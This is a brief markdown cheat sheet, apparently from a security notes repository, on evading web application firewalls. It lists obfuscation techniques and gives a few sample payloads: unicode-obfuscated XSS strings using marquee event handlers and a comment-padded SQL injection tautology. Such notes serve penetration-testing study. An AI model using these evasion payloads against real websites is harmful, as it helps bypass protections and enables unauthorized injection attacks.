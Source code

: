 # Defeating WAF
(https://github.com/0xInfection/Awesome-WAF#evasion-techniques)
1. Blacklisting keywords
    * Use alternative payloads (Eg: Use LIKE instead of =, Use 2 instead of 1)
2. Obfuscation - payload is encoded to a different encoding
    * Case toggling
    * URL Encoding 
3. Unicode normalization - encoding ASCII characters to unicode  
    ```
    Standard - <marquee onstart=prompt()>
    Bypassed -  <marquee onstart=\u0070r\u06f\u006dpt()>  //p,o,m converted to unicode

    Blocked - <marquee loop=1 onfinish=alert()>x
    Bypasses - ＜marquee loop＝1 onfinish＝alert︵1)>x //('s unicode alternative)
    ```
4. HTML Representation 
4. Mixed Encoding
5. Using Comments
`2 OR 2=2#`
```sql
2/*random*/OR/*random*/2/*tt*/LIKE/*tt*/"2"/**/%23  
```
6. Double Encoding
7. Wildcard Obfuscation
8. Dynamic Payload Generation
9. Junk characters
10. Line Breaks
11. Uninitialiased Variables
12. Tabs and Line Feeds

